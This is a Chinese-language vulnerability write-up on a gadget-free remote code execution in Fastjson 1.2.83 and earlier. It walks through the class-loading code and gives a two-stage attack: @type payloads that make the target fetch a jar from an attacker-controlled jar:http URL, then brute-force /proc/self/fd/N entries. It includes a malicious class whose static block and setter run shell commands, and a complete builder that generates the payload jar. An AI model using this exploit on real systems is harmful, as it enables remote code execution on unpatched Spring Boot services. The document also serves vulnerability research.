


# 漏洞描述

漏洞源于 Fastjson 反序列化流程中的一处安全缺陷。在使用默认配置（未开启 SafeMode）的情况下，若攻击者能够控制传递给 Fastjson 的 JSON 数据，即可利用 Fastjson 自身内部的反序列化逻辑构造恶意载荷，无需目标环境存在特定 gadget 类便能触发任意代码执行。由于该漏洞属于"gadget-free"利用方式，传统的移除危险类等缓解手段对此无效。

据网传所说，仅需jdk8+springboot fatjar启动即可达到利用条件，可现实中当真如此吗？

# 利用条件

- fastjson版本<=1.2.83
- fastjson的SafeMode未开启
- java版本：jdk8
- 目标必须出网
- 类加载器支持加载URL资源

# 演示环境

演示环境下载地址：https://pan.baidu.com/s/1SMFWcRSoVwFK8I4LinOq2w?pwd=1145

启动命令：**java -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=5005 -jar range-app-1.0.0.jar --server.port=18088**

页面图片：



# 源码分析

我们重点审计`ParserConfig`类的`checkAutoType`方法的第1479-1503行的代码。`typeName`是@type字段的值、并且是字符串类型，在1502行中使用了`TypeUtils`工具类的`loadClass`方法来将@type字段的值指向的对象加载到jvm中，不过想走到这行首先得满足if的条件。

`autoTypeSupport`的值在fastjson1.2.83版本中默认是false，`expectClassFlag`的值在sink点为`JSON.parseObject(str)` 的场景下也默认为false（具体看传给checkAutoType的expectClass参数的值是什么，这里不详细展开讲，具体可看1342行附近的内容）,这里的重点在于jsonType的值，如何才能为true进入该if分支。

jsonType的值初始是false。关键在"资源探测"这一步：将typeName里的 . 替换成 / 并且在末尾拼接上 .class 后将结果赋给resource，然后调用`getResourceAsStream(resource)`去取这个资源，若类的字节里带着 `@JSONType` 注解，`jsonType` 就改为 `true`。

defaultClassLoader是ParserConfig单例的一个属性，如果没有人为去修改默认为null，因此会走到else分支，使用的类加载器为ParserConfig.class.getClassLoader()的值，即加载了fastjson组件的类加载器。若是springboot fatjar启动，则该类加载器为`LaunchedURLClassLoader`，它继承自 `URLClassLoader`，在 **JDK8** 下，其底层 `URLClassPath` 会把形如 `jar:http://...` 的资源名当作 **jar: URL** 解析（`JarURLConnection`），从而真的发起 HTTP 下载——这正是探测阶段能"远程拉 jar"、也是该利用必须springboot FatJar + JDK8 的根本原因。

```java showLineNumbers startLineNumber=1479 title="ParserConfig.java"
        boolean jsonType = false;
        InputStream is = null;
        try {
            String resource = typeName.replace('.', '/') + ".class";
            if (defaultClassLoader != null) {
                is = defaultClassLoader.getResourceAsStream(resource);
            } else {
                is = ParserConfig.class.getClassLoader().getResourceAsStream(resource);
            }
            if (is != null) {
                ClassReader classReader = new ClassReader(is, true);
                TypeCollector visitor = new TypeCollector("<clinit>", new Class[0]);
                classReader.accept(visitor);
                jsonType = visitor.hasJsonType();
            }
        } catch (Exception e) {
            // skip
        } finally {
            IOUtils.close(is);
        }

        if (autoTypeSupport || jsonType || expectClassFlag) {
            boolean cacheClass = autoTypeSupport || jsonType;
            clazz = TypeUtils.loadClass(typeName, defaultClassLoader, cacheClass);
        }
```

上述只是对远程类是否带@JSONType注解的一个探测，但是并没有去加载类，类加载是在TypeUtils.loadClass进行的。

接下来对TypeUtils工具类的loadClass方法进行审计，重点看1771-1780行的内容。className就是loadClass传过来的typeName、依旧是@type字段的值。

在这里获取类加载器使用的是`Thread.currentThread().getContextClassLoader()`方法，这个方法获取的是当前线程上下文类加载器，问题就出在这里，若是内嵌tomcat的springboot，则在此处获取到的类加载器是`TomcatEmbeddedWebappClassLoader`。

而问题也出在这个类加载器上。虽然`TomcatEmbeddedWebappClassLoader`同为 `URLClassLoader` 子类，但如果className含有连续的斜杠(如 // ) ，则TomcatEmbeddedWebappClassLoader不会去加载这个远程类。

```java showLineNumbers startLineNumber=1771 title="TypeUtils.java"
        try {
            ClassLoader contextClassLoader = Thread.currentThread().getContextClassLoader();
            if (contextClassLoader != null && contextClassLoader != classLoader) {
                clazz = contextClassLoader.loadClass(className);
                if (cache) {
                    mappings.put(className, clazz);
                }
                return clazz;
            }
        } catch (Throwable e) {
```

而在Linux上，存在绕过这个限制的方法。首先发送 `{"@type":"jar:http:..<十进制IP>:<端口>.probe!.POC","x":1}`。探测阶段的 `getResourceAsStream` 走的是资源侧，走的是LaunchedURLClassLoader类加载器，目标会把远程 jar 拉下来，并被自己的类加载器缓存成一个本地临时文件——这个文件已被标记"删除"，但**文件描述符还开着**，挂在 `/proc/self/fd/N` 上（N 是操作系统分配的编号，事先不知道因此需要爆破）。随后我们发送`{"@type":"jar:file:.proc.self.fd.N!.POC","x":1}`，使用file协议绕过这个限制。它没有 `jar:http://` 那种 `//`，能通过TomcatEmbeddedWebappClassLoader的检测。而这个payload依旧是不完整的，无法生效。

因为新的问题又诞生了。最后的类加载会落到ClassLoader.defineClass(String name, byte[] b, int off, int len, ProtectionDomain protectionDomain)方法中来把类加载到jvm，其中String name是类名、是直接透传过来的`jar:file:/proc/self/fd/231!/POC231`，byte[] b则是类的字节码数据。defineClass把`String name`和`字节码常量池里的 this_class`作比较，如果是相等则加载类，否则抛出异常。

为此我们只需要在编译好字节码后，手动去更改字节码常量池里的 this_class就好了。不过由于N的值不确定，修改的值也不确定，所以我们需要把很多的class文件放到同一个jar包里，JAR 格式规定:**条目名(entry name)是容器的唯一键**——同一个 jar 里不可能存在两个都叫 `POC.class`、内容却不同的条目。要么同名去重,要么换名共存。，为此我们可以统一命名成**`jar:file:.proc.self.fd.N!.POCN`**。并且将这些class文件全部打包在一个jar包里。如图下所示。




# 漏洞复现

首先是恶意类的编写。使用@JSONType注解标记类，想执行的代码或者命令可放到static块中，在类加载到jvm时便会直接执行。其他的根据自身情况编写（内存马什么的）。最后编译成字节码。

```java showLineNumbers startLineNumber=1 title="POC.java"
import com.alibaba.fastjson.annotation.JSONType;


@JSONType
class POC {

    private String name;
    private String cmd;

    static {
        try {
            new java.io.File("pwned.txt").createNewFile();
            Runtime.getRuntime().exec(new String[] { "/bin/sh", "-c", "xeyes &" });   // 弹 xeyes
        } catch (Throwable t) {
            t.printStackTrace();
        }
    }

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public String getCmd() {
        return cmd;
    }

    public void setCmd(String cmd) {
        this.cmd = cmd;
        try {
            Runtime.getRuntime().exec(new String[] { "/bin/sh", "-c", cmd });
        } catch (Throwable t) {
            t.printStackTrace();
        }
    }
}
```

随后便是用这个POC.class去生成那几百个POCN文件了。这里提供一个脚本。

```java showLineNumbers startLineNumber=1 title="TwoStageJarBuilder.java"
import java.io.*;
import java.nio.file.Files;
import java.util.zip.ZipEntry;
import java.util.zip.ZipOutputStream;

/**
 * 两段式全家桶 jar 生成器：
 *   - 条目 POC.class         内部名 jar:http://<decIP>:<port>/probe!/POC          （STAGE-1 下载用）
 *   - 条目 POC<N>.class      内部名 jar:file:/proc/self/fd/N!/POC<N>  (N=low..high)（STAGE-2 盲打用）
 * 用法: java TwoStageJarBuilder <输入.class> <decIP> <port> <输出.jar> <fdLow> <fdHigh>
 */
public class TwoStageJarBuilder {

    static byte[] renameClass(byte[] in, String newName) throws IOException {
        DataInputStream dis = new DataInputStream(new ByteArrayInputStream(in));
        int magic = dis.readInt();
        int minor = dis.readUnsignedShort();
        int major = dis.readUnsignedShort();
        int cpCount = dis.readUnsignedShort();
        int[] tag = new int[cpCount];
        byte[][] payload = new byte[cpCount][];
        for (int i = 1; i < cpCount; i++) {
            tag[i] = dis.readUnsignedByte();
            switch (tag[i]) {
                case 1: {
                    int l = dis.readUnsignedShort();
                    payload[i] = new byte[2 + l];
                    payload[i][0] = (byte) (l >> 8);
                    payload[i][1] = (byte) l;
                    dis.readFully(payload[i], 2, l);
                    break;
                }
                case 3: case 4: case 9: case 10: case 11: case 12: case 17: case 18: { payload[i] = new byte[4]; dis.readFully(payload[i]); break; }
                case 5: case 6: { payload[i] = new byte[8]; dis.readFully(payload[i]); break; }
                case 7: case 8: case 16: case 19: case 20: { payload[i] = new byte[2]; dis.readFully(payload[i]); break; }
                case 15: { payload[i] = new byte[3]; dis.readFully(payload[i]); break; }
                default: throw new IOException("cp tag " + tag[i]);
            }
        }
        ByteArrayOutputStream rest = new ByteArrayOutputStream();
        byte[] buf = new byte[4096];
        int n;
        while ((n = dis.read(buf)) != -1) rest.write(buf, 0, n);
        dis.close();

        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        DataOutputStream dos = new DataOutputStream(bos);
        dos.writeInt(magic);
        dos.writeShort(minor);
        dos.writeShort(major);
        dos.writeShort(cpCount);
        boolean replaced = false;
        for (int i = 1; i < cpCount; i++) {
            dos.writeByte(tag[i]);
            if (tag[i] == 1) {
                int ol = ((payload[i][0] & 0xFF) << 8) | (payload[i][1] & 0xFF);
                String s = new String(payload[i], 2, ol, "UTF-8");
                if (s.equals("POC")) {
                    byte[] nb = newName.getBytes("UTF-8");
                    dos.writeShort(nb.length);
                    dos.write(nb);
                    replaced = true;
                    continue;
                }
            }
            dos.write(payload[i]);
        }
        dos.write(rest.toByteArray());
        dos.flush();
        if (!replaced) throw new IOException("'POC' not found");
        return bos.toByteArray();
    }

    public static void main(String[] args) throws Exception {
        if (args.length < 6) {
            System.out.println("用法: java TwoStageJarBuilder <输入.class> <decIP> <port> <输出.jar> <fdLow> <fdHigh> [name]");
            System.exit(1);
        }
        byte[] orig = Files.readAllBytes(new File(args[0]).toPath());
        String decIp = args[1];
        int port = Integer.parseInt(args[2]);
        String outJar = args[3];
        int lo = Integer.parseInt(args[4]);
        int hi = Integer.parseInt(args[5]);
        String name = args.length > 6 ? args[6] : "probe2";

        String stage1Internal = "jar:http://" + decIp + ":" + port + "/" + name + "!/POC";

        try (ZipOutputStream zos = new ZipOutputStream(new FileOutputStream(outJar))) {
            // STAGE-1 条目
            byte[] c1 = renameClass(orig, stage1Internal);
            ZipEntry e1 = new ZipEntry("POC.class");
            zos.putNextEntry(e1);
            zos.write(c1);
            zos.closeEntry();
            System.out.println("[*] POC.class         internal=" + stage1Internal);

            // STAGE-2 fd 变体条目
            int cnt = 0;
            for (int fd = lo; fd < hi; fd++) {
                String internal = "jar:file:/proc/self/fd/" + fd + "!/POC" + fd;
                byte[] c2 = renameClass(orig, internal);
                ZipEntry e2 = new ZipEntry("POC" + fd + ".class");
                zos.putNextEntry(e2);
                zos.write(c2);
                zos.closeEntry();
                cnt++;
            }
            System.out.println("[*] POC" + lo + ".class .. POC" + (hi - 1) + ".class  (" + cnt + " 个 fd 变体)");
        }
        System.out.println("[*] wrote " + outJar);
    }
}
```

一切准备就绪，这边在vmware的kali里启动靶场，因为该漏洞刚需linux环境。

